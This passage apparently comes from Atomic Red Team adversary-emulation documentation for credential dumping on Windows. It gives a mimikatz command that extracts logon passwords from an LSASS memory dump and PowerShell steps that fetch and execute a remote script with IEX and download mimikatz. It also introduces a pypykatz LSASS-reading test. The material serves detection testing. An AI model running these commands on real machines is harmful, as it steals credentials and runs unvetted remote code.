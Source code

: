 ```cmd
"#{mimikatz_exe}" "sekurlsa::minidump #{input_file}" "sekurlsa::logonpasswords full" exit
```

#### Dependencies: Run with `powershell`!

##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing)
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```

##### Description: Lsass dump must exist at specified location (#{input_file})

##### Check Prereq Commands:

```powershell
cmd /c "if not exist #{input_file} (exit /b 1)"
```

##### Get Prereq Commands:

```powershell
Write-Host "Create the lsass dump manually using the steps in the previous test (Dump LSASS.exe Memory using Windows Task Manager)"
```

<br/>
<br/>

## Atomic Test #7 - LSASS read with pypykatz

Parses secrets hidden in the LSASS process with python. Similar to mimikatz's sekurlsa::

Python 3 must be installed, use the get_prereq_command's to meet the prerequisites for this test.

Successful execution of this test will display multiple usernames and passwords/hashes to the screen.

**Supported Platforms:** Windows

